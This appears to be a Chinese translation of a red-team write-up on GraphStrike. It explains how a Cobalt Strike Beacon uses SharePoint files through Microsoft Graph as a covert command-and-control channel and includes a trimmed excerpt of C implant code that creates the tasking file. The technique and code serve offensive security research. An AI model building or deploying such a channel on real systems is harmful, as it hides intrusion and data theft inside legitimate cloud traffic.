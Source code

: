 对于这个特定的 Beacon，相关信息可以总结如下：

| **条目** | **值** |
| --- | --- |
| TS 任务文件名 | AMFTYYnvh-NZ7q87nb32BV03vz-tP1vaoxmfdwKTeba6D7azteJONYntyP79j7L7-QWynYagPhJ0qgBk7albtTKi4tmJlfIBfcoVaHcmMehvzQcZar1OC1hQj64cXfBDSRs-u2Sp9P0GNglZejsQ7BcCA-3cirbd0wInvbhStW0 |
| Beacon 输出文件名 | AMFTYYnvh-NZ7q87nb32BV03vz-tP1vaoxmfdwKTeba6D7azteJONYntyP79j7L7-QWynYagPhJ0qgBk7albtTKi4tmJlfIBfcoVaHcmMehvzQcZar1OC1hQj64cXfBDSRs-u2Sp9P0GNglZejsQ7BcCA-3cirbd0wInvbhStW0pD9-tK1123716960 |
| Beacon 元数据 | AMFTYYnvh-NZ7q87nb32BV03vz-tP1vaoxmfdwKTeba6D7azteJONYntyP79j7L7-QWynYagPhJ0qgBk7albtTKi4tmJlfIBfcoVaHcmMehvzQcZar1OC1hQj64cXfBDSRs-u2Sp9P0GNglZejsQ7BcCA-3cirbd0wInvbhStW0 |
| 分隔符 | pD9-tK |
| Beacon 会话 ID | 1123716960 |

通过这样组织事情，我们：

1.  将所需的 Beacon 元数据和会话 ID 与每个 http-get 和 http-post 请求相关联。
2.  可以将 SharePoint 中的 TS 任务文件和 Beacon 输出文件关联为属于同一 Beacon（因为在两个文件名中都可以找到 Beacon 元数据）。

为了将其映射到 Beacon 的 HTTP 事务，Beacon 将向 TS 任务文件发出 http-get 请求以下载文件内容。对 http-get 的服务器响应来自托管 SharePoint 文件（而不是 TS）的 Microsoft 服务器，并包含之前由 GraphStrike 服务器上传的 TS 任务。由于 Beacon 的独特元数据用作文件名，GraphStrike 知道 Cobalt Strike 中发布的针对该特定 Beacon 的所有任务都应上传到治理。

当 Beacon 获得任务输出时，它会启动 http-post 循环，将数据上传到 Beacon 输出文件。 Beacon 实际上并不对 http-post 请求的服务器输出做任何事情，也不关心服务器输出，因此我们可以简单地丢弃 Microsoft 服务器响应此请求的内容。然后，GraphStrike 服务器可以下载 Beacon 输出文件中存储的数据，通过按预定义的分隔符拆分来查找文件名中的 Beacon 会话 ID，然后将此数据传送到 TS 进行处理。

Beacon 负责在 SharePoint 中创建这两个文件，因为它的元数据和会话 ID 是在运行时确定的。执行此操作的代码也驻留在 HttpOpenRequestA\_Hook 函数中，并且在逻辑上是有限制的，因此 Beacon 只能在 SharePoint 中创建一次新文件；TS Tasking 文件是在第一个 http-get 循环中创建的，而输出文件则是在第一个 http-post 循环中创建的。

TS任务文件创建：

```plain
... Trimmed for Brevity ...

// If this is the first GET request for the Beacon, we need to create the TS output file for the Beacon to read from. 
if (pMemAddrs->firstGet)
{
    // ------------------------------------ Upload new file for TS tasking ---------------------------------------

    // Assemble URI to create new file in SharePoint using the Beacon metadata as a name
    tempUri = C_PTR ( pMemAddrs->Api.msvcrt.calloc(1000, sizeof(char)) );
    LPCSTR fileName = pMemAddrs->Api.msvcrt.strstr(lpszObjectName, HTTP_GET_PREFIX ) + pMemAddrs->Api.msvcrt.strlen(HTTP_GET_PREFIX);
    pMemAddrs->Api.msvcrt.sprintf(tempUri, C_PTR ( OFFSET ( "%s/root:/%s:/content" ) ), SHAREPOINT_ADDRESS, fileName );

    // Store metaData to be used later to create the Beacon output channel as well 
    pMemAddrs->metaData = (char*)pMemAddrs->Api.msvcrt.calloc(pMemAddrs->Api.msvcrt.strlen(fileName) + 1, sizeof(char));
    pMemAddrs->Api.msvcrt.strcpy(pMemAddrs->metaData, fileName);

    response = MakeWebRequest(pMemAddrs->hInternet, GRAPH_ADDRESS, tempUri, PUT_VERB, pMemAddrs->httpPostHeaders, NULL, pMemAddrs );
    if (!response)
        return INVALID_HANDLE_VALUE;

    // Parse out fileId from response
    ParseValue((char*)response, (char*)C_PTR ( OFFSET ( "id\":\"" ) ), id, 100, FALSE, pMemAddrs);

    // Assemble httpGetUri that will be used for subsequent Beacon comms
    reqSize = pMemAddrs->Api.msvcrt.strlen(SHAREPOINT_ADDRESS) + pMemAddrs->Api.msvcrt.strlen(id) + pMemAddrs->Api.msvcrt.strlen(C_PTR ( OFFSET ( "/items//content" ) ) + 1);
    pMemAddrs->httpGetUri = pMemAddrs->Api.msvcrt.calloc(reqSize, sizeof(char));
```